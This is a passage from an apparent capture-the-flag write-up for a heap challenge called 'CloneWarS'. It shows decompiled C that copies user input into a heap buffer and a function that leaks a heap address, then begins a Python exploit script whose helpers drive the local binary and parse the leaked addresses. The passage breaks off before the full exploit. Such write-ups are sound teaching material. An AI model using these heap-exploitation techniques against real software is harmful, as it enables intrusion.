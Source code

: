 So, this function is useful since this is used to print the Heap Address once `starship` is initialized, pay attention this function won't leak anything unless the `starship` initialized.



##### `deploy_troops`


```C
unsigned __int64 make_troopers()
{
  int v0; // ST0C_4
  char *dest; // ST10_8
  char src[8]; // [rsp+18h] [rbp-28h]
  char buf; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  fwrite("\nTroopers to be deployed: ", 1uLL, 0x1AuLL, stderr);
  read(0, &buf, 0x14uLL);
  v0 = atoi(&buf);
  dest = (char *)malloc(v0);
  fwrite("\nWhat kind of troopers?: ", 1uLL, 0x19uLL, stderr);
  src[(signed int)((unsigned __int64)read(0, src, 8uLL) - 1)] = 0;
  strcpy(dest, src);
  return __readfsqword(0x28u) ^ v5;
}
````

This function just copies the data from the local variable `buf` to the dynamically allocated heap region.

# Exploitation


So, what we will do here is first create wrapper function to interact with the binary and then we can move on.

```py
from roppy import *


p = process("./CloneWarS")

def prepstarships(amount, ship_type, capacity):
    p.sendlineafter(": ", "3")
    p.sendlineafter(": ", str(amount))
    p.sendlineafter(": ", ship_type)
    p.sendlineafter(": ", str(capacity))


def r2d2():
	p.sendlineafter(": ", "2")
	p.sendlineafter("? ", "x")
	p.recvline()
	leak = p.recvline().split()[3]
	return int(leak)

def darkside():
	p.sendlineafter(": ", "6")
	p.recvline()
	leak = p.recvline().split(b": ")[1]
	return int(leak)

def build_deathstar(amount):
	p.sendlineafter(": ", "1")
	p.sendlineafter(": ", str(amount))
```